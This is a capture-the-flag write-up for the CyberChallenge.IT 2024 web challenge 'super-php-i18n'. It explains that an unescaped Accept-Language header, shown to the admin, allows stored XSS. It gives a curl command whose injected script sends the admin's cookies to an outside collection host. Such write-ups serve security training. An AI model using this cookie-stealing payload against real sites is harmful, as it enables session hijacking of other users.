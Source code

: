 # CyberChallenge.IT 2024 - University CTF

## [web] super-php-i18n (45 solves)

I'm publishing a new php i18n library, let me know what you think!

Site: [http://super-php-i18n.challs.external.open.ecsc2024.it:38209](http://super-php-i18n.challs.external.open.ecsc2024.it:38209)

Author: Lorenzo Leonardini <@pianka>

## Solution

super-php-i18n contains a contact form to message the admin. Every form field is escaped using `htmlentities`, so we cannot perform XSS there, but the admin also can see the user language, retrieved from the `Accept-Language` header, which is not escaped.

So we can submit the form and edit the request to have the following header:

```bash
curl -H 'Accept-Language: <script>location.href="http//bin/?"+document.cookie</script>' -X POST --data "name=a&email=a&message=a" http://super-php-i18n.challs.external.open.ecsc2024.it
```
